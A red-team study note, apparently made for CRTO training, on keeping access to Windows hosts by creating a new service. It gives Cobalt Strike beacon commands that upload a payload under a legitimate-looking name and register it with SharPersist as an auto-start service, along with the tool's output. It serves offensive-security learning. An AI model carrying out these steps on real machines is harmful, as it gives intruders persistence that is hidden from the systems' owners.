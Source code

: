 
As in [[Windows Services]], there are many Windows services that run as SYSTEM.  Our various means of exploiting services for privilege escalation also act as persistence, but at the cost of breaking the legitimate service.

Instead, we can create our own service which won't impact on existing services.

## 🖊️ via [[Cobalt Strike]]

1) Upload payload and create the service

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```
This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START.  This means the service won't run until the machine is rebooted.  When the machine starts, so will the service, and it will be waiting for a connection.

![[service.png]]


### Properties
---
📆 created   {{10-02-2024}} 21:09
🏷️ tags: #redteam #crto 

---

